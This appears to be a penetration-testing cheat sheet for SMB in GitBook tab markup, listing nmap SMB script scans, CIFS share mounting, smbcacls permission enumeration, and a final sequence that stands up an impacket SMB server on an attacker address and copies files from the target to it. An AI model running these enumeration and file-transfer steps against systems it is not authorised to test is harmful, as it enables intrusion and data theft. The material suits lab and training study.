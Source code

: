 {% tab title="Second Tab" %}

{% endtab %}
{% endtabs %}

### Operations

{% tabs %}
{% tab title="NSEs" %}
```bash
sudo nmap -sV -p 139,445 -script smb* 10.10.10.10
```
{% endtab %}

{% tab title="Mount" %}
<pre class="language-bash"><code class="lang-bash"><strong>sudo mount -t cifs //10.10.10.10/share1 /mnt
</strong></code></pre>
{% endtab %}

{% tab title="Mount (auth)" %}
{% code overflow="wrap" %}
```bash
sudo mount -t cifs -o username=<USER>,password=<PASS> //<TARGET-IP>/"<SHARE>" <PATH-TO-MOUNT>
```
{% endcode %}
{% endtab %}

{% tab title="List Dir Perms" %}
```bash
smbcacls -N '//10.10.10.10/share1' /dir1
```
{% endtab %}

{% tab title="List Perms Recur" %}
{% code overflow="wrap" %}
```bash
$ for i in $(ls); do echo $i; smbcacls -N '//10.10.10.103/share1' /dir1/$i ; done
```
{% endcode %}
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="1. Server" %}
```bash
impacket-smbserver -smb2support share . -username test -password tes
```
{% endtab %}

{% tab title="2. Connect" %}
```powershell
net use x: \\10.10.14.4\share /USER:test test
```
{% endtab %}

{% tab title="3. Transfer" %}
```powershell
copy file1 x:\
```
{% endtab %}
{% endtabs %}
